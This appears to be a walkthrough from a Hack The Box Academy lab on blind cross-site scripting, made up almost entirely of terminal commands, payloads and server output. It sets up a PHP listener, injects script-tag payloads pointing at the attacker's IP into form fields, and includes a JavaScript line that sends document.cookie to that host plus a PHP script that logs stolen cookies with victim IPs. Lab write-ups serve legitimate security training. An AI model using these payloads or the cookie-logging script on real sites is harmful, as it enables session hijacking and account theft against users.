 ```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ mkdir /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ cd /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-e8y0wifeld]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 06:52:31 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/comment>

"><script src=http://10.10.15.8:8000/author>

"><script src=http://10.10.15.8:8000/url>
```

```
[CONTINUE]

[Fri May 30 06:53:41 2025] 10.129.255.155:46978 Accepted
[Fri May 30 06:53:41 2025] 10.129.255.155:46976 Accepted
[Fri May 30 06:53:41 2025] 10.129.255.155:46978 [200]: GET /url
^C
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ vim script.js 

new Image().src='http://10.10.15.8:8000/index.php?c='+document.cookie

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ vim index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
